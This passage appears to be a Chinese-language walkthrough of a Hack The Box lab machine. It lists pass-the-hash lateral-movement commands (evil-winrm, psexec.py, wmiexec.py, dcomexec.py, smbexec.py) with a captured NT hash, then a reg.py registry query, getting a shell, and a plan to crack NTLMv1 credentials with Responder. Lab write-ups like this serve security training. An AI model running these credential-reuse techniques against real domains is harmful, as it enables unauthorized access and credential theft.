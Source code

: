 ## 横向移动大比拼  

这里hash可以直接使用后半段，因为前面是空密码的hash，没有特殊要求的就可以这么用。
+ evil-winrm -i htb.local -u henry.vinson -H "e53d87d42adaa3ca32bdb34a876cbffb"
+ psexec.py -hashes "e53d87d42adaa3ca32bdb34a876cbffb" htb.local/henry.vinson@htb.local
+ wmiexec.py -hashes "e53d87d42adaa3ca32bdb34a876cbffb" htb.local/henry.vinson@htb.local
+ dcomexec.py -hashes "e53d87d42adaa3ca32bdb34a876cbffb" htb.local/henry.vinson@htb.local
+ smbexec.py -hashes "e53d87d42adaa3ca32bdb34a876cbffb" htb.local/henry.vinson@htb.local

虽然前面一直在用htb.local/henry.vinson@htb.local，但是我现在才想起来这个为什么是这样的格式。@前面的代表是这个域下的用户，因为这个靶机就是域控嘛，@后面的就是服务器地址。  
前面的这些工具都是失败的，我们接下来尝试reg.py，这个是reg.exe的py版本，准确来说这是一个注册表读取工具，不算是横向移动工具。  
```
reg.py -hashes "e53d87d42adaa3ca32bdb34a876cbffb" -dc-ip htb.local htb.local/henry.vinson@htb.local query -keyName HKU\\
```
![](img/2024-03-16-16-54-09.png)  
可以看到有结果的，并且在HKU\ \software\ \GiganticHostingManagementSystem" 有很直接的信息  
![](img/2024-03-16-16-56-25.png)  

## evil-winrm获得初始shell  

用刚才得到的凭据进行横向移动使用evil-winrm即可获得初始shell。  
在进行一番查找之后没发现什么显眼的文件，于是我们去auto_wordlists里查看哪些敏感文件，根据关键词pass，history等搜索，然后发现一个东西。  
![](img/2024-03-16-17-10-39.png)  
我们去搜索关键词lmcompatibilitylevel，在微软官方文档看到这个  
![](img/2024-03-16-17-13-42.png)  
这个历史记录的意思是将管理员账户的凭据进行加密，并且加密算法兼容水平更改为2，对应的是ntlmv1，那么就可以用我们开头提到的responder破解  
